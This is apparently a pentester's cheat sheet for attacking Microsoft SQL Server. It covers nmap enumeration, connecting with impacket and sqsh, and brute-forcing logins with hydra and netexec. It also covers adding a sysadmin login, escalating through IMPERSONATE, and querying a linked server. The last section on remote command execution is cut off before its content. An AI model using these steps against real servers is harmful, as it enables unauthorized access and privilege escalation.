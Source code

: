 
# Commands
### Nmap Enumeration
```bash
nmap -n -v -sV -Pn -p 1433 --script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password $ip

```
### Connect:
```bash
# impacket
impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip>
impacket-mssqlclient -port 1433 DOMAIN/username:password@<target-ip> -windows-auth

# sqsh
sqsh -S <target-ip> -U username -P password
sqsh -S <target-ip> -U username -P password -D database

## mssqlclient
mssqlclient.py htbdbuser@<target-IP> -p 1433
# Password: MSSQLAccess01!
```

### Brute Force Credentials
```bash
netexec mssql <target-ip> -u username -p passwords.txt

hydra -L usernames.txt –p password <target-ip> mssql
hydra -l username –P passwords.txt <target-ip> mssql
```

### Useful SQL Commands:
```bash
# Get the version of MSSQL
> SELECT @@version

# Get current username
> SELECT user_name()

# Get all users
> SELECT * FROM sys.database_principals

# Get databases
> SELECT * FROM master.dbo.sysdatabases

# Switch to the database
> USE <database>

# List tables
> SELECT * FROM information_schema.tables

# Get table content
> SELECT * FROM <database_name>.dbo.<table_name>


# Check if the current user have permission to execute OS command
> USE master
> EXEC sp_helprotect 'xp_cmdshell'

# Get linked servers
> EXEC sp_linkedservers
> SELECT * FROM sys.servers

# Create a new user with sysadmin privilege
> CREATE LOGIN tester WITH PASSWORD = 'password'
> EXEC sp_addsrvrolemember 'tester', 'sysadmin'

# List directories
> xp_dirtree '.\'
> xp_dirtree 'C:\inetpub\'
> xp_dirtree 'C:\inetpub\wwwroot\'
> xp_dirtree 'C:\Users\'
```


## Impersonation
if you have rdp connection in windows then type `sqlcmd` or you can use another commands to directly connect from attacker machine once you have the mssql terminal then

Let suppose you logged in as user Fiona run this command
This tells us that Fiona can **impersonate another SQL user**, for example `john`.
```sql
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```

Impersonate john & Become Sysadmin
```sql
EXECUTE AS LOGIN = 'john'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go
```
💥 john **is a sysadmin**, so now you can execute admin-level queries as John!

Try accessing a linked server
```sql
EXECUTE('SELECT SYSTEM_USER') AT [LOCAL.TEST.LINKED.SRV];
go
```

**What this does:**

- Executes a query on a **linked SQL server** named `LOCAL.TEST.LINKED.SRV`.
- It asks: _Who am I on that linked server?_`
- **Output:**
- ```
```

Remote Command Execution on Linked Server
```sql
Linked SQL servers can run commands remotely like this:
```
